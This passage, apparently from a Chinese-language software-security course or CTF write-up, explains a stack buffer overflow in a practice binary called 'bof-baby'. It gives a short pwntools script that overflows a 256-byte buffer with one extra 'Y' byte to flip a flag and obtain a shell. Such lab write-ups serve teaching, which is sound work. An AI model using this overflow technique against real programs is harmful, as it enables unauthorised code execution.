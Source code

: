 栈的布局如下所示：

<img src="/article/software-security(1)/hw11.png" width = 60% height = 60% />

所以只要溢出一个字符'Y'来覆盖'N'即可。


&emsp;&emsp;
#### Code

```python
from pwn import *

io = process('./bof-baby')

payload = 'A'*256+'Y'
io.sendline(payload)

io.interactive()
```

然后可以得到shell。

<img src="/article/software-security(1)/hw12.png" width = 60% height = 60% />
